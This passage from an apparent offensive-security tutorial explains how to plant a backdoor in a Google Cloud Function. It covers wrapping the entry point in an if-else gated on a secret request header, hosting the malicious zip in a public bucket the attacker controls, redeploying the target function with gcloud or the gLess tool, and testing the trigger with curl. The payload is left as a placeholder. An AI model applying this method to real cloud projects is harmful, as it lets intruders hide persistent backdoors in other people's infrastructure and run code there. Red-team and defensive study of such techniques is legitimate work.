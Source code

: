 <p><img src="https://drive.google.com/uc?id=1XsPgvvrkRoxgbctSbz0YYBJOt07fUfCW"></p>

#### III. Insert the Malicious code using conditions (if-else)

Insert the malicious code using conditional statements (if-else) in the next line after the entry point, import required modules and update the requirements.txt file.  

```python
<entrypoint>():
    if request.headers.get('my-header') == 'anirban-gcp':
        <malicious code>
    else:
        <put the rest of the original code here>
```
<p><img src="https://drive.google.com/uc?id=1IS2RActgusEsQ-Ftwi8hvFQ2cw5TxSA_"></p>

With the Malicious source code ready, we can now update the Cloud Function. Before you update the Malicious source code, make sure you have a copy of the original Cloud Function code that you're targeting, it'll be required in the next step.

Pack the Malicious Source Code (main.py) and requirements.txt into a zip file and upload it to a different Cloud Storage Account (not the same account where you're exploiting the Cloud Function) you have full access to (Editor) and make it public. Copy the gsutil link of the malicious zip file.

Once you have the gsutil URI of the malicious zip file go ahead Update the target Cloud Function via any method (gCloud or Cloud Function API)

### Updating and Setting IAM Policy to a Cloud Function via gCloud or Cloud Function API (gRPC & REST)

```powershell
# gcloud
gcloud functions deploy <target-function-name> --runtime=python38 --source=<gs-link-to-malicious-zipped-sourcecode> --entry-point=<function-entrypoint> --trigger-http --service-account=<service-account-email>

# Cloud Function API (gRPC) - gLess
git clone https://github.com/anrbn/gLess
cd gLess
py.exe .\main.py --project-id <project-id> --location <region> --function-name <target-function-name> --gsutil-uri <gsutil-uri> --function-entry-point <entry-point> --service-account <sa-account> --update
```
After successful update of the Cloud Function, Invoke the Cloud Function again to see if it's working as expected and if the Malicious code is executing. 

If you get issues related to permissions during invocation, make sure you have set [IAM Policy binding to the Cloud Function](#after-deploying-the-function-successfully-bind-an-iam-policy-to-the-cloud-function-so-principals-can-invoke-it).

```powershell
# Invoking the Cloud Function
curl https://<your-region>-<your-project-id>.cloudfunctions.net/<function-name>
curl -H "my-header: wrong-header-value" https://<your-region>-<your-project-id>.cloudfunctions.net/<function-name>
curl -H "my-header: header-value" https://<your-region>-<your-project-id>.cloudfunctions.net/<function-name>
```
<p><img src="https://drive.google.com/uc?id=1Y5QkmxVr2w4eS1Wh4r6n5d54ULcq1xED"></p>
